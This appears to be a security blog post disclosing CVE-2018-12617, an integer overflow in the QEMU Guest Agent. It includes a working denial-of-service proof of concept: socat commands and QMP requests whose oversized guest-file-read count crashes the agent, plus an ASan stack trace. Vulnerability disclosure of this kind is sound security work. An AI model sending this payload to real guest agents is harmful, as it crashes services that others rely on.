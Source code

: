 ```yaml
---
layout: post
title: "[CVE-2018-12617] QEMU Guest Agent Integer Overflow"
date: 2018-06-07
categories:
    - blog
keywords: "qemu, qemu-ga, dos, denial of service"
---
```


QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.

1st, execute the guest-agent using the following command:

```
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
```

2nd, on the other console, connect to the UNIX socket using socat:

```
$ socat unix-connect:/tmp/qga.sock -
```

3rd, enter the following QMP command:

```
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
```

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

```
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
```
---
References:
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html
